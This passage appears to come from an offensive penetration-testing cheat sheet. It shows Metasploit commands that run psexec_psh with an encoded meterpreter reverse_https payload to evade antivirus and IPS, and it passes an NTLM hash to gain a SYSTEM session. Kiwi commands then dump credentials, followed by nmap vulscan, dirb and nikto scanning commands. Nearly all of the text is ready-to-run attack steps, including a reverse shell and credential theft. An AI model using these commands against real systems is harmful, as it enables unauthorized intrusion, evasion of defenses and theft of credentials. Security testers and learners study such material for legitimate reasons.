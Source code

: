 ```
Nice now we got rid of the AV, however our payload and IP was still blocked since they use an IPS 
so we used a reverse_https listener and psexec_psh to bypass it:
mohamed@KeyStrOke:~$ msfconsole
use exploit/windows/smb/psexec_psh
set payload windows/meterpreter/reverse_https
set StageEncoder x86/shikata_ga_nai
set EnableStageEncoding true
set SMBUSER USERNAME
set SMBPASS cc5e9acbad1b25c9aad3b435b51404ee:996e6760cddd8815a2c24a110cf040fb
set lhost IP
set lport 443
exploit -j
and BOOM   :D
Server username: NT AUTHORITY\SYSTEM
Enjoy your Session
```
# Kiwi collect credentials
```
meterpreter > load kiwi
meterpreter > cred_all
```
# Network

### Nmap Full Web Vulnerable Scan

```
cd /usr/share/nmap/scripts/
wget http://www.computec.ch/projekte/vulscan/download/nmap_nse_vulscan-2.0.tar.gz && tar xzf nmap_nse_vulscan-2.0.tar.gz
nmap -sS -sV --script=vulscan/vulscan.nse target
nmap -sS -sV --script=vulscan/vulscan.nse –script-args vulscandb=scipvuldb.csv target
nmap -sS -sV --script=vulscan/vulscan.nse –script-args vulscandb=scipvuldb.csv -p80 target
nmap -PN -sS -sV --script=vulscan –script-args vulscancorrelation=1 -p80 target
nmap -sV --script=vuln target
nmap -PN -sS -sV --script=all –script-args vulscancorrelation=1 target
```

### Dirb Dir Bruteforce

```
dirb http://IP:PORT /usr/share/dirb/wordlists/common.txt
```

### Nikto web server scanner

```
nikto -C all -h http://IP
```

### WordPress Scanner
